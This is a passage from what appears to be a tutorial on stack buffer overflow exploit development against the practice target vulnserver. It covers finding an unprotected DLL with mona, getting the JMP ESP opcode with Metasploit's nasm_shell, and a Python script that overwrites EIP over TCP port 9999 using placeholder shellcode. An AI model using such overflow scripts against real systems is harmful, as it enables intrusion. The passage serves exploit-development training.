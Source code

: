 - Look for any **.dll file** linked with the `vulnserver` with **No Memory Protections**, this can be done using **Mona Modules**.

- Execute

	> !mona modules

Look at a **.dll file** with all Protection Settings as False.

- Execute:

	> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	It is used to Convert **Assembly Code** to **App Code** ie. **Hexadecimal**.

	Enter:

	> JMP ESP
	
	This is a Pointer that will be used to Jump to Malicious Code.

- Execute

	> !mona find -s "\x__\x__" -m <dll_file>
	
	Look at its Return Address and Use it in Python Script using Little Endian Format.

	*5.py*
	```
	#!/usr/bin/python
	import socket
	try:
	  print "\n[+] Sending evil buffer..."
	  offset = "A" * 524
	  eip = "\xf3\x12\x17\x31"
	  shellcode = "C" * 400  
	
	  buffer = offset + eip + shellcode
	
	  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	  
	  s.connect(("192.168.135.10", 9999))
	  s.send(buffer)
	  
	  s.close()
	 
	  print "\n[+] Sending buffer of " + str(len(buffer)) + " bytes..."
	  print "\n[+] Sending buffer: " + buffer
	  print "\n[+] Done!"
	  
	except:
	  print "\n[+] Could not connect!"
	```